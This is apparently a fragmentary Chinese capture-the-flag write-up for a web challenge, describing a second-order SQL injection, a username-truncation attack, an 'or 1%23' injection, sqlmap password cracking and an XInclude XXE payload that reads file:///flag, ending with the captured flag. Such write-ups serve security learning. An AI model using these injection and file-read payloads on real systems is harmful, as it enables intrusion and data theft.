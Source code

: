 `c\'#`=>no flag

`c'#`=>`c\'#`出现flag(得删除cookie)

注入点就在这

什么代码导致这种结果

登陆时:`$_SESSION[x]=query("select * from xx where user='".mysql_real_escape($_POST['user'])."' and pass='".mysql_real_escape($_POST['pass'])")."'"`

`query("select * from xx where user='$_SESSION[x]'")`



```
user	php($_SESSION) mysql('$sql')
a'		a' 			a'
a\'		a\' 		a\'


```

存在过滤?

依据个数生成flag链接





后面想到为啥注入点不可以是msgid呢

约束攻击获得一个只带有`\`的账号

注册一个a+' '*28+'"' 的账号

msgid处出现注入点

`or 1%23`成功

用sqlmap爆破得到admin的密码拿到tools.php解密得到:` ChunQiuGame`

![image.png](http://ww1.sinaimg.cn/large/006pWR9agy1g8ta75axdlj30bv036jrd.jpg)



正常的xxe没啥用,找到一叶飘零的一篇文章

https://www.anquanke.com/post/id/156227

payload:

```
<root xmlns:xi="http://www.w3.org/2001/XInclude">
 <xi:include href="file:///flag" parse="text"/>
</root>
```

flag{5ea7d712-e461-4d29-9246-4ea6266775a8}

....................气死了就差一点拿到flag



